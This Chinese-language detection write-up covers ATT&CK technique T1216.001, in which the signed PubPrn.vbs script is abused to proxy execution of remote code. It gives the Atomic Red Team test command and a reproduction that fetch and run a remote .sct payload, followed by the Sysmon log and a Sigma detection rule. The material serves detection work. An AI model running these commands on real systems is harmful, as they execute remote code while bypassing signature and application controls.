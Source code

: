 # T1216-001-win-签名脚本代理执行-PubPrn

## 来自ATT&CK的描述

攻击者可能会使用 PubPrn 来代理恶意远程文件的执行。PubPrn.vbs 是一个将打印机发布到 Active Directory 域服务的Visual Basic脚本。该脚本由 Microsoft 签名，通常通过Windows shell `Cscript.exe`. 例如，以下代码在指定域内发布打印机：`cscript pubprn Printer1 LDAP://CN=Container1,DC=Domain1,DC=Com`。

 攻击者可能会滥用PubPrn来执行托管在远程站点上的恶意负载。为此，攻击者可以设置第二个`script:`参数以引用托管在远程站点上的脚本文件 (.sct)。一个示例命令`pubprn.vbs 127.0.0.1 script:https://mydomain.com/folder/file.sct`. 此行为可能会绕过签名验证限制和不考虑滥用此脚本的应用程序控制。

在更高版本的 Windows (10+) 中，`PubPrn.vbs`已更新，防止从远程站点执行代理。这是通过将第二个参数中指定的协议限制为来完成的，也就是可用于通过 HTTP(S) 引用远程代码`LDAP://`的`script:`绰号。

## 测试案例

### 测试1 PubPrn.vbs Signed Script Bypass
执行已签名的PubPrn.vbs脚本，该脚本可以下载和执行任意有效载荷。
攻击命令，Windows命令行执行即可。
```
cscript.exe /b C:\Windows\System32\Printing_Admin_Scripts\en-US\pubprn.vbs localhost "script:#{remote_payload}"
```

remote_payload：<https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1216.001/src/T1216.001.sct>

## 检测日志

Windows 安全日志、Sysmon日志

## 测试复现
### 测试1 PubPrn.vbs Signed Script Bypass
```
C:\Users\Administrator.ZHULI>cscript.exe /b C:\Windows\System32\Printing_Admin_Scripts\zh-CN\pubprn.vbs localhost "script:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1216.001/src/T1216.001.sct"
```

注意操作系统语言，语言不同，VBS脚本所在位置不同
## 测试留痕
Windows Sysmon日志
```      
Process Create: 事件ID 1进程创建

RuleName: technique_id=T1059,technique_name=Command-Line Interface

UtcTime: 2022-01-11 08:05:07.983

ProcessGuid: {78c84c47-3a33-61dd-3924-000000000800}

ProcessId: 2000

Image: C:\Windows\System32\cscript.exe

FileVersion: 5.812.10240.16384

Description: Microsoft 

Product: Microsoft ® Windows Script Host

Company: Microsoft Corporation

OriginalFileName: cscript.exe

CommandLine: cscript.exe /b C:\Windows\System32\Printing_Admin_Scripts\zh-CN\pubprn.vbs localhost "script:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1216.001/src/T1216.001.sct"

CurrentDirectory: C:\Users\Administrator.ZHULI\

User: ZHULI\Administrator

LogonGuid: {78c84c47-f665-61db-95da-440100000000}

LogonId: 0x144DA95

TerminalSessionId: 3

IntegrityLevel: High

Hashes: SHA1=0E3C0779D8EAAD3B00363D7890DDC8272B510D49,MD5=A45586B3A5A291516CD10EF4FD3EE768,SHA256=59D3CDC7D51FA34C6B27B8B04EA17992955466EB25022B7BD64880AB35DF0BBC,IMPHASH=2B44D2206B9865383429E9C1524F1CAC

ParentProcessGuid: {78c84c47-2489-61dd-f120-000000000800}

ParentProcessId: 4392

ParentImage: C:\Windows\System32\cmd.exe

ParentCommandLine: "C:\Windows\system32\cmd.exe" 

ParentUser: ZHULI\Administrator
```

## 检测规则/思路

### Sigma规则

```yml
title: 使用PubPrn.vbs脚本绕过检测
status: experimental
author: 12306Br0
date: 2022/01/11
references:
    - attack.t1216.001
logsource:
    product: windows
    service: sysmon
detection:
    selection:
        EventID: 1 #sysmon日志，进程创建
		CommandLine: 
		      - '*\Printing_Admin_Scripts\*\pubprn.vbs' #进程命令行
			  - 'https:*'
			  - '*.sct' 
    condition: selection
level: low
```

### 建议

监视脚本进程，例如`cscript`，以及脚本的命令行参数，例如可用于代理恶意文件执行的PubPrn.vbs。

## 参考推荐

MITRE-ATT&CK-T1216-001

<https://attack.mitre.org/techniques/T1216/001/>

Atomic-red-team-T1216.001

<https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1216.001/T1216.001.md>
